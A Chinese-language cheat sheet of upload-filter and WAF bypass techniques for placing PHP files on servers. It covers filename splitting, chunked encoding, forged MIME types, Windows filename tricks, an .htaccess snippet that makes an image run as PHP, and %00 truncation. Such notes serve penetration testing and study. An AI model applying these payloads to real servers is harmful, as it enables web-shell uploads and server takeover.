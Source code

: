 # fileupload bypass waf

---


名字换行绕过waf（找到真实IP，通过真实IP请求）

```
Content-Disposition: form-data; name="Filedata"; filename="2.p
h
p"
```

chunk绕过waf

```
Transfer-Encoding:chunked
16进制：1-9ABCDEFG
然后将上传内容变成下述的分块传输，从----------websdafasgasjfga-----------开始
A:
xxxxxxxxxx 
8:
xxxxxxxx
```

修改编码方式：

```
Accept-Encoding: deflate   或者gzip   # 设置在请求头，对服务端声明可以接受的编码方式
Content-Encoding: deflate  或者gzip   # 设置在响应头，对客户端声明会用哪种编码方式
```

修改header中的host：（包内的内容不影响发包还是会发到原本的目标，只是为了绕过waf的检测）

```
1.找到真实IP，通过真实IP请求
2.如host中存在端口号，可以修改成其他端口或者删除
```






客户端js验证：可以先正常图片上传，然后通过burp抓包改包成可解析的代码如：php即可


服务端验证：

MIME验证绕过

```
上传php但是修改成可允许上传的图片的MIME即可绕过
Content-Type:image/jpeg                # jpg，可以换成png，gif等
Content-Type:image/php                 # 有些代码逻辑是提取该/后面的php为文件后缀
Content-Type:application/octet-stream  # php，可以换成xml、json、pdf等
Content-Type:text/html                 # html，可以换成xml等
```

黑名单绕过

```
适用于黑名单绕过且目标是windows系统
xx.php空格     # 点号后面的空格会自动删除,访问xx.php
xx.PHP        # windows，大小写不敏感     ，访问xx.PHP
xx.php.       # windows文件命名，点号后面没有东西也会删除点，访问xx.php
xx.php..      # 同理，但是过滤一个末尾的点     ，访问xx.php
xx.php::$DATA # windows系统中将::$DATA当成文件流处理，会把::$DATA删除， 访问xx.php
---
过滤某些字符串：双写绕过，如过滤php变成空格，双写php进行嵌套，phphpp
---
.htaccess绕过
    如果没有禁止该文件上传，可以适用，仅限apache，和黑名单没有限制该文件上传
    让同目录下的2.jpg当php解析
    <FilesMatch "2.jpg">
    SetHandler application/x-httpd-php
    </FilesMatch>
```

白名单绕过

```
%00截断
限制：php版本小于5.3.4且php.ini的magic_quotes_gpc为OFF状态

get请求：
    xx.php%00.jpg  # 代码检测后缀是jpg，但是php读到%00进行了截断，结束读取
    xx.php%00/2.jpg  # 同理，在文件路径中也可以

post请求：（需要进行url解码）
    xx.php%00.jpg
    对%00右键/Convert selection/URL/URL-decode

访问xx.php

---
图片马+文件包含 进行白名单绕过
```



